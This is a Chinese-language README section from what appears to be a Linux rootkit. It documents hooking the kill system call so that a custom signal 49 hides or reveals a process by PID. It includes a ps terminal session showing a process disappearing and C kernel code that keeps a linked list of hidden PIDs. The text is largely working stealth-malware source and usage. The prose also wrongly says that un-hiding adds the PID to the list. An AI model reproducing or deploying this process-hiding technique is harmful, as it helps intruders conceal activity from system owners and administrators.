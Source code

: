 ### 3.根据pid指定需要隐藏的进程

通过kill调用 hook kill调用，如果是定义的特定信号，添加目标pid到需要屏蔽的pid链表

#### 使用
1. 打开一个test文件。使用命令`ps aux |grep test`查看test进程pid，pid为14114。


	```
	challenge@ubuntu:~$ ps aux |grep test
	challen+ 14114  1.7  3.5 662556 36088 ?        Sl   21:08   0:00 gedit /home/challenge/Desktop/test
	challen+ 14165  0.0  0.1  21292  1016 pts/17   R+   21:08   0:00 grep --color=auto test

	```	



2. 隐藏test进程。使用命令`kill -49 14114`，其中49是自定义的信号用于根据pid隐藏进程

	```
	challenge@ubuntu:~$ kill -49 14114
	challenge@ubuntu:~$ ps aux |grep test
	challen+ 16274  0.0  0.0  21292   980 pts/17   S+   21:20   0:00 grep --color=auto test
	```


3. 取消隐藏test进程。再次执行`kill -49 14114`

	```
	challenge@ubuntu:~$ kill -49 14114
	challenge@ubuntu:~$ ps aux |grep test
	challen+ 14114  0.0  3.6 662556 36136 ?        Sl   21:08   0:00 gedit /home/challenge/Desktop/test
	root     20315  0.0  0.0  21292   976 pts/17   S+   21:42   0:00 grep --color=auto test
	
	```


#### 实现

创建双向链表用来保存目前隐藏的进程的pid，当执行命令`kill -49 pid`时，有隐藏和取消隐藏两种情况。首先判断该pid是否在表中，如果不在，则说明当前此pid未被隐藏，进而执行隐藏操作，在链表中添加该pid；否则执行取消隐藏操作，在链表中添加该pid。

```c
case SIGHIDEPROC:
        if (is_pid_hidden((long)pid))
            make_pid_show((long)pid);
        else
            make_pid_hidden((long)pid);
        break;
```

```c
void make_pid_hidden(long pid)
{
    struct pid_list *new_pid = NULL;

    if (is_pid_hidden(pid))
        return;

    new_pid = kmalloc(sizeof(struct pid_list), GFP_KERNEL);
    if (new_pid == NULL)
        return;

    new_pid->next = first_pid;
    new_pid->prev = NULL;
    new_pid->pid = pid;
    if (first_pid != NULL)
        first_pid->prev = new_pid;
    first_pid = new_pid;
}

```